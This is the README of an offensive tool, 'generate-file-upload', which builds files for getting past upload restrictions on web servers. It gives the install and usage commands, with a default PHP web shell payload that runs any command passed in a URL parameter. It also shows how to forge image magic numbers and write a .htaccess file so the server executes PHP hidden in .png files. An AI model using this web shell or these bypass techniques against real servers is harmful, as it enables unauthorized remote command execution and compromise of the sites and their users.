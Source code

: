 # generate-file-upload
Generate some payload to bypass restriction when you perform a file upload

Generate in `Payloads/` all extension for PHP

## Installation & Usage

```
git clone https://github.com/LighTend3r/generate-file-upload.git
cd ./generate-file-upload
```
To install it, write the command above

```
python3 upfile.py -h
```
If you want help to understand the programme

-----

## Exemple of usage :
```
python3 upfile.py
```
Generate all extension in PHP


```
python3 upfile.py -b
```
Generate all bypass for PHP


```
python3 upfile.py -n test -p test -ext php
```
Generate file named `test.php` which contain `test`


```
python3 upfile.py -b -m png
```
Generate all files bypass for PHP, which contain `magicNumber + payload`


```
python3 upfile.py -ext png -ht png
```
Generate `.htaccess` which allow execution of php with extension .png and create `paylaod.png`

-----

## Options

Default name : `payload`

Default file : `PHP`

Default payload : `<?php system($_GET["cmd"]); ?>`

```
usage: upfile.py [-h] [-d] [-p <payload>] [-f {php}] [-ext <ext>] [-b] [-n <name>] [-m {png,jpg}] [-ht <ext>]

Generate some payload to bypass restriction when you perform a file upload

options:
  -h, --help            show this help message and exit
  -d, --debug           Show debugging to see the process
  -p <payload>, --payload <payload>
                        The payload in the files
  -f {php}, --file {php}
                        The type of the files
  -ext <ext>, --extension <ext>
                        Generate the payload with specific extension
  -b, --bypass          Generate some payload to bypass the restriction
  -n <name>, --name <name>
                        Name of the file
  -m {png,jpg}, --magic {png,jpg}
                        Magic Header, add the magics numbers before the payload
  -ht <ext>, --htaccess <ext>
                        Creates in addition a .htaccess file, which allow execution of php whith extension that you
                        have chosen
   ```         
